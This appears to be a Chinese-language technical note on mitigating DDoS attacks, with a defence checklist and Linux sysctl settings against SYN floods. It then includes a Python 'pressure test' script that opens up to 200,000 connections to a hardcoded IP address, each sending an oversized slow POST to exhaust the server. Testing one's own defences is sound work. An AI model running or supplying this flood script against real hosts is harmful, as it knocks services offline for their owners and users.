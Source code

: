 - [x] 资源利用最大化
- [x] 加固TCP/IP协议栈
- [x] 防火墙、路由器过滤网关，有效地探测攻击类型并阻击攻击。

必须明确的是，DDoS攻击在 TCP连接原理上是合法的，除非 TCP协议重新设计，明确定义 DDoS和其他正常请求有何不同，否则不可能完全阻止 DDoS攻击，我们所做的只是尽可能地减轻 DDoS攻击的危害。

### 服务器设置

优化服务 

查看日志 安全日志

利用工具检查文件完整性 tirewire

### 加固TCP/IP协议栈

```bash
# SYN Cookies技术, 试图保护套接字免受syn flood攻击
net.ipv4.tcp_syncookies = 1

# 增大半连接队列空间，容纳更多半连接
net.ipv4.tcp_max_syn_backlog = 262144

# 缩短syn半连接的Timeout，即几次重传syn+ack的总时长调小。
net.ipv4.tcp_syn_retries = 1
```

### 防火墙防御

模拟DDOS脚本

```python
#!/usr/bin/env python
import socket
import time
import threading

# Pressure Test,ddos tool
# ---------------------------
MAX_CONN = 200000    # 最大socket链接量
PORT = 80
HOST = "47.101.51.165"
PAGE = "/photography"

buf = ("POST %s HTTP/1.1\r\n"
       "Host: %s\r\n"
       "Content-Length: 10000000\r\n"
       "Cookie: dklkt_dos_test\r\n"
       "\r\n" % (PAGE, HOST))

# 创建socket链接列表，存储上20万个socket
socks = []
# 循环创建socket链接
def conn_thread():
    global socks
    for i in range(0, MAX_CONN):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((HOST, PORT))
            s.send(buf.encode("utf-8"))
            print("Send buf OK!,conn=%d\n" % i)
            socks.append(s)
        except Exception as ex:
            print("Could not connect to server or send error:%s" % ex)
            time.sleep(1)

```